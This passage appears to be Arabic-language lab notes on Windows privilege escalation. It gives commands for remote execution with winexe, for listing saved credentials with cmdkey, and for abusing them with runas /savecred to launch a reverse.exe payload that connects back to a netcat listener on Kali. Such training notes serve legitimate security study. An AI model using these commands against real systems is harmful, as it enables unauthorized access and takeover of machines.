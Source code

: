 ```bash
winexe -U 'admin%password' //MACHINE_IP cmd.exe
```

----------------------
# Saved Credentials - cmdkey

عرض البيانات المخزنة:

```bash
cmdkey /list
```

إذا لم تكن البيانات موجودة، تشغيل **savecred.bat**:

```
C:\PrivEsc\savecred.bat
```
بدء مستمع على **Kali**:

```
nc -lvnp 9999
```
تشغيل **reverse.exe** باستخدام **runas**:

```
runas /savecred /user:admin C:\PrivEsc\reverse.exe
```

